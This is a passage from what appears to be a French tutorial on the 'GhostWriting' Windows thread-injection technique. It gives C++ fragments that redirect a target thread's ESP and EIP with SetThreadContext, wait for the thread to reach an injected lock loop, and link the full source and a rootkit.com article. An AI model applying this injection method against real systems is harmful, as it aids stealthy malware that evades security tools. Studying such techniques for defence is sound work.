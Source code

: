 ```c++
 
    /********************************  <= hAddrBase
    /*     Adresse de notre jmp     */
    /********************************/
    /*     Notre                    */
    /*              Routine         */
    /********************************/
    /*             VIDE             */
    /********************************  <= Esp à l'origine
    /*     Pile du thread cible     */
    /*                              */
 
    (DWORD)*(DWORD *)&sc[6] = hAddrBase + 4;      //On remplit notre routine avec l'adresse de la chaine "oO"
 
    *SrcReg = AutoLock;
    *DstReg = hAddrBase - OffsetMov;
 
    // mov [hAddrBase - OffsetMov + OffsetMov], AutLock
 
    Context.Esp = hAddrBase - OffsetEsp;      //Avant le RET, ESP pointe sur hAddrBase et dans hAddrBase on trouve l'adresse de notre JMP $
    Context.Eip = GoodMov;                    //Re-direction du thread sur notre MOV
 
    if(!SetThreadContext(hThread,&Context))goto exit;      //C'est parti ....
```
Il faut vérifier si notre thread est bloqué à notre autolock, rien de plus simple :
```c++
void WaitEip(HANDLE hThread, DWORD Eip)
{
    CONTEXT Context;
    Context.ContextFlags = CONTEXT_CONTROL;
    do
    {
        if(!GetThreadContext(hThread, &Context)) return;
    }
    while(Context.Eip != Eip);
}
```
Je pense que vous avez maintenant compris le principe de cette technique. J’ai enlever le passage sur la protection DEP afin de raccourcir le code.  

[GhostWriting.cpp](GhostWriting.cpp)  

Mon code est à but pédagogique et non pour faire mieux que le POC **c0de90e7**.  
Attention il est possible de tomber sur un thread des gestions des messages Windows, en quel cas il faudra faire un PostMessage mais je vous laisse le plaisir de regarder l’article sur RootKit.com pour ca.  

__*Greetz:*__  
mxatone, ivanlef0u, n0cte.  
Et à m0m0, Nyxem pour avoir corrigé mon français.  

__*References*:__  
http://rootkit.com/newsread.php?newsid=689  
http://www.sandpile.org/ia32/opc_rm32.htm  
Intel _Volume2x_Instruction Set Reference.pdf